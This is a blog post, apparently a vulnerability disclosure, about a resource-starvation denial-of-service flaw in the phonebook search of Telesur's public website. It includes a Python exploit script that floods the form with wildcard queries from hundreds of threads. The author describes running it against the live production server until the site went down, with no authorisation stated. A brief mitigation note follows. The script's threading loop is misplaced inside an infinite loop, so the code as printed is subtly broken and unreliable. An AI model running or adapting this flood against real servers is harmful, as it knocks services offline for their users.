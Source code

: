 ```yaml
---
layout: post
current: post
cover:  assets/images/tele0ops/tele0ops.png
navigation: True
title: Tele0ops - Telesur Resource Starvation Attack Vulnerability
date: 2019-12-14 01:43:01
excerpt: A resource starvation vulnerability has been discovered on Telesur’s website, the government-owned telecommunications company for Suriname. The resource starvation vulnerability can lead to a Denial of Service (DoS) of the server.
description: A resource starvation vulnerability has been discovered on Telesur’s website, the government-owned telecommunications company for Suriname. The resource starvation vulnerability can lead to a Denial of Service (DoS) of the server.
tags: Exploitation
class: post-template
subclass: 'post tag-exploitation'
author: girish
---
```


# Introduction
A resource starvation vulnerability has been discovered on Telesur’s website [https://www.telesur.sr](https://www.telesur.sr), the government-owned telecommunications company for Suriname. The resource starvation vulnerability can lead to a Denial of Service (DoS) of the server, rendering the website unavailable for any visitors. In this document I will demonstrate how this vulnerability can be exploited and mitigated.

# Vulnerable Pages
The following pages are vulnerable to the resource starvation attack:

* [/mijn-telesur/telefoonboek/](https://www.telesur.sr/mijn-telesur/telefoonboek/)

# Exploitation
First, I will check whether the website is online with an online tool. I used [Uptrends](https://www.uptrends.com/tools/uptime):

![website status](/assets/images/tele0ops/1.png)

Great! Looks like it’s online.
Now let’s head over to [/mijn-telesur/telefoonboek/](https://www.telesur.sr/mijn-telesur/telefoonboek/) and look up some phone numbers:

![telesur telefoonboek](/assets/images/tele0ops/2.png)

Through random experimentation I stumbled across something interesting whenever an asterisk “*”
gets entered into the “name” field like so:

![telesur telefoonboek](/assets/images/tele0ops/3.png)

Submitting this request triggers the following error on the server:

![telesur telefoonboek error message](/assets/images/tele0ops/4.png)

It looks like the server is trying to load all the data that exists in the database into memory and return it but when it hits the maximum data that is allowed to be loaded into memory (set in the ASP.NETconfiguration) which is 20 000 000 Bytes or 20 MB it returns the above error. This is a problem when there are multiple requests like this sent to the server which causes 20 MB to be loaded into memory for every request. Depending on the amount of requests sent and the amount of memory available on the server it can lead to a resource starvation attack and render the server unresponsive.


Let’s monitor the request and try sending it with a Python script:

![telesur telefoonboek error message](/assets/images/tele0ops/5.png)

### Exploit code:

```python
#!/usr/bin/python

# exploit.py

import time
import requests
import threading

FORM_URL = 'https://www.telesur.sr/mijn-telesur/telefoonboek/'
USER_AGENT = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36'

HEADERS = {
'User-Agent': USER_AGENT
}

PAYLOAD = {
    'ctl00$ctl00$ctl00$ContentPlaceHolderDefault$cp_mid$cp_content$Telefoonboek_11$tbNaam': '*',
    'ctl00$ctl00$ctl00$ContentPlaceHolderDefault$cp_mid$cp_content$Telefoonboek_11$tbAdres': '',
    'ctl00$ctl00$ctl00$ContentPlaceHolderDefault$cp_mid$cp_content$Telefoonboek_11$btnSubmit': 'Zoek telefoonnummer',
    '__EVENTARGUMENT': '',
    '__EVENTTARGET': '',
    '__VIEWSTATE':
    '/wEPDwUENTM4MQ9kFgJmD2QWAmYPZBYCZg9kFgJmD2QWAgIND2QWAgILD2QWAgIBEGRkFgICAQ9kFgJmD2QWAgINDzwrABECARAWABYAFgAMFCsAAGQYAQVZY3RsMDAkY3RsMDAkY3RsMDAkQ29udGVudFBsYWNlSG9sZGVyRGVmYXVsdCRjcF9taWQkY3BfY29udGVudCRUZWxlZm9vbmJvZWtfMTEkUmVzdWx0c0dyaWQPZ2QaLq2Bl/1/EvEOj8oEFDn3CWHLEDT6Ot8njNoshplL/Q==',
    '__VIEWSTATEGENERATOR': 'CA0B0334'
}


def make_request():
    while True:
        print('Sending request...')
        requests.post(FORM_URL, data=PAYLOAD, headers=HEADERS)
        print('Done.')

    for thread_number in range(800):
        thread = threading.Thread(target=make_request)
        thread.start()
        print(f'Started thread #{thread_number}.')
```


Now let’s execute the script:


```$ python3 exploit.py```


And let’s check the website status again:

![telesur website status](/assets/images/tele0ops/6.png)

BOOM! The server is now unresponsive and we can’t load the main website.


# Mitigation
A Google search for the exception thrown returned the following Stack Overflow answer:

![Stackoverflow solution for mitigation](/assets/images/tele0ops/7.png)

> [https://stackoverflow.com/a/884248](https://stackoverflow.com/a/884248)

So you should choose the maximum amount of memory that can be loaded for every request carefully and make sure not to choose a too big amount or else the server will be vulnerable to a DoS attack. Another option would be to implement [data paging](https://stackoverflow.com/a/11789529) for the returned results from the database.


The vulnerability was discovered on 4 Oct 2019.


### Conclusion
Yeaaahh, I know, they should hire me :)
